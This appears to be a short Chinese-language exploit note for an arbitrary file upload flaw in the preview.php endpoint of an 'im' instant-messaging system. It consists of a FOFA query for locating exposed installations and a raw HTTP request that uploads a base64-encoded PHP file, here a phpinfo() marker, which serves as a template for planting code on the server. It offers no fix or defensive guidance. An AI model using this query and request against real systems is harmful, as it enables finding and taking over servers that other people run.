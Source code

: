 # im即时通讯系统preview.php前台任意⽂件上传漏洞

# 一、漏洞简介
im即时通讯系统preview.php接口存在任意文件上传漏洞

# 三、资产测绘
+ fofa`body="/superloginAction.html" || "im.smiaoshen.com"`

# 四、漏洞复现
```rust
GET /static/lib/webuploader/0.1.5/server/preview.php HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (
KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,i
mage/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: su_webp=1; wp-settings-1=libraryContent%3Dbrowse; wp-settings-time
-1=1734956910
Connection: close
Content-Length: 46

data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+
```
